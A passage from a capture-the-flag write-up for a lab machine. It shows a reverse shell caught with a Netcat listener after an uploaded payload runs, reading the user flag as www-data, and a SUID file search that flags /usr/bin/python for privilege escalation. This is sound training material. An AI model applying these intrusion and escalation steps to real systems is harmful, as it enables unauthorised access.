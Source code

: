 Now navigate to path /uploads and we will see our payload there now click on it to execute it, and we have our shell in our Netcat listener

```bash
nc -nlvp 1234  
listening on [any] 1234 ...
connect to [10.9.80.228] from (UNKNOWN) [10.10.55.36] 53476
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 14:33:46 up 7 min,  0 users,  load average: 0.38, 1.58, 1.03
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ pwd
/
```

Navigate to /var/www/user.txt

```bash
$ cd var/www
$ ls
html
user.txt
$ cat user.txt
```

<details><summary>user.txt [Flag]</summary></details>

### Task 4 - Privilege escalation

#### 4.1 - Search for files with SUID permission, which file is weird?

Now that we are on the target machine, we need to look for ways to escalate our privileges. Using our next question as a hint we need to search for files with SUID permissions. To do this we can run the command:

```bash
$ find / -perm -u=s -type f 2>/dev/null
```

<pre class="language-bash"><code class="lang-bash">/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/traceroute6.iputils
/usr/bin/newuidmap
/usr/bin/newgidmap
/usr/bin/chsh
<a data-footnote-ref href="#user-content-fn-1">/usr/bin/python</a>
/usr/bin/at
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/pkexec
/snap/core/8268/bin/mount
/snap/core/8268/bin/ping
/snap/core/8268/bin/ping6
/snap/core/8268/bin/su
/snap/core/8268/bin/umount
/snap/core/8268/usr/bin/chfn